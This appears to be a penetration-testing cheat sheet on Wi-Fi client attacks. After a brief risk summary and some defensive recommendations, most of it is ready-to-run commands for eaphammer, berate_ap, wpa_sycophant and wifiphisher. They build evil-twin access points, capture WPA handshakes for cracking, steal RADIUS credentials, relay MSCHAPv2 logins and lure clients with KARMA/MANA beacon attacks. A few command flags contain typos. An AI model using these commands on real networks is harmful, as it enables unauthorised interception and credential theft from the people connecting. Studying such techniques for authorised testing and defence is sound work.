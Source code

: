 ## Open Network Impersonation (Client Attacks)
An attacker discovered an open network that is currently in use. Open networks pose a significant security risk due to their lack of integrity assurance. An attacker can impersonate the open network, luring users into the attacker's network. An attacker can also conduct a DoS attack against the corporate network, which will cause the targeted devices to seek out alternative networks to connect to, leading the victim devices to connect to the attacker's imposter network. A Rogue AP refers to an access point installed on a secure network without the explicit permission of a system administrator. Such devices can pose a severe security threat, as anyone accessing the premises may inadvertently or intentionally install a low-cost wireless AP, allowing unauthorized parties to access the network. 

Recommendation:
To compensate for the lack of Layer 2 security, organizations need to implement more robust defenses at the upper layers. One way to limit the SSIDs that client devices connect to is by utilizing Group Policy functions and forbidding the connection to the 'ANY' SSID. By doing so, end-users won't be able to connect to wireless networks that are not considered trustworthy. Educating users on the significance of confirming the identity of digital certificates before supplying sensitive information, ensuring that the root or issuing authority for the digital certificate is trusted.

### Rogue AP Process:

    1. Check whether SSID is Visible or not
    2. Sniff for IP range if SSID is visible then check the status of MAC Filtering.
    3. If MAC filtering is enabled then spoof the MAC Address by using tools such as SMAC
    4. Try to connect to AP using IP within the discovered range.
    5. If SSID is hidden then discover the SSID using Aircrack-ng and follow the procedure of visible SSID which was declared above.

### Basic Open Hotspot
    $ berate_ap  <interface_AP> <interface_internet> <SSID>
    
### Open Network Evil Twin
    $ eaphammer -i wlan0 --channel <channel_number> --auth open --essid <SSID>
     
     Could use the following tools: airgeddon.sh, fluxion.sh, wifipumpkin3

### WPA/WPA2-Personal Evil Twin
   WPA Passphrase Known:
   
       $ eaphammer -i wlan0 --channel <channel_number> --auth wpa-psk \ --essid <SSID> --wpa-passphrase <passphrase>
        
   WPA Passphrase Unknown:
   
    1. Spawn Open Network Evil Twin instead to attack clients (e.g. Phishing attack to retrieve Passphrase) 
    2. Capture WPA (half) Handshake of connecting clients & Cracking
        $ eaphammer -i wlan0 --channel <channel_number> --auth wpa-psk \ --essid <SSID> --wpa-passphrase randompassphrase --capture-wpa-handhshake

### WPA/WPA2-Enterprise Evil Twin
   RADIUS Credentials Unknown:
   
    # RADIUS Credentials Stealing
        Possible if EAP method does not use client-certificate for client authentication.
            $ eaphammer --cert-wizard
            $ eaphammer -i wlan0 --channel --auth wpa-eap \ --essid <SSID> --creds
    
    # EAP (MSCHAPv2) Relay
        Possible if target network uses EAP method with MSCHAPv2 for client authentication.
            $ berate_ap --eap --mana-wpe --wpa-sycophant --mana-credout <file_captured_creds>\ <interface_AP> <interface_internet> <SSID>
            $ wpa_sycophant.sh -c wpa_sycophant_example.conf -i <interface>

   RADIUS Credentials Known:
   
    $ ehdb --add --identity <username> --password <password> # Add credentials in db
    $ ehdb --add --identity <username> --nt-hash <ntlm_hash> # Add creds with NTLM hash in db
    $ eaphammer -i wlan0 --channel <channel_number> --auth wpa-eap \ --essid <SSID_corporate_wifi>

### 802.11 Network Selection Algorithms Abuse (for Open Network)
    Abuse clients' passive scanning with known Beacons Attack:
        $ eaphammer -i wlan0 --channel <channel_number> --auth open --essid <SSID> --mana –known-beacons

    Abuse clients' active probing:
    
      # KARMA Attack (outdated) By default with wifiphisher
        $ sudo wifiphisher
        
      # MANA Attack (KARMA improvement)
        $ eaphammer -i wlan0 --channel <channel_number> --auth open --essid <SSID> --mana
        
      # Loud MANA (MANA Improvement) 
        $ eaphammer -i wlan0 --channel <channel_number> --auth open --essid <SSID> --mana –loud
